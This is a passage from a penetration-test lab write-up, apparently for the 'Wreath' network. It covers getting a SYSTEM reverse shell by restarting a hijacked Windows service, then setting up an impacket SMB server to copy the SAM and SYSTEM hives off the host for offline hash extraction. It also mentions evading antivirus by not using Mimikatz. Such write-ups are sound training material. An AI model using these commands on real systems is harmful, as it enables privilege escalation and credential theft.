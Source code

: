 <span class="c1">With the malicious binary in place, I set up a netcat listener on port 443 (as specified in the C# code) before restarting the service:</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 394.50px; height: 185.30px;">![](_reports/Wreath/image57.png)</span>

<span>Typing</span> <span class="c0">sc stop SystemExplorerHelpService</span><span>(to stop the service) and</span> <span class="c0">sc start SystemExplorerHelpService</span><span> (to start the service) resulted in a reverse shell as System:</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 348.50px; height: 132.60px;">![](_reports/Wreath/image2.png)</span>

### <span class="c27 c0">Data Exfiltration</span>

<span>Now, with a reverse shell as System, we can extract the stored credentials on this system.</span> <span>Mimikatz cannot be used as Antivirus is installed on this machine. However, because we are System, we can copy the</span> <span class="c0">SAM</span> <span>and</span> <span class="c0">SYSTEM</span> <span>files and locally extract the stored hashes. I set up an SMB server on my machine to download the files with</span> <span class="c0">sudo impacket-smbserver share . -smb2support -username 0xd4y -password pass</span><span class="c1"> and transferred the SAM and SYSTEM hives as follows:</span>
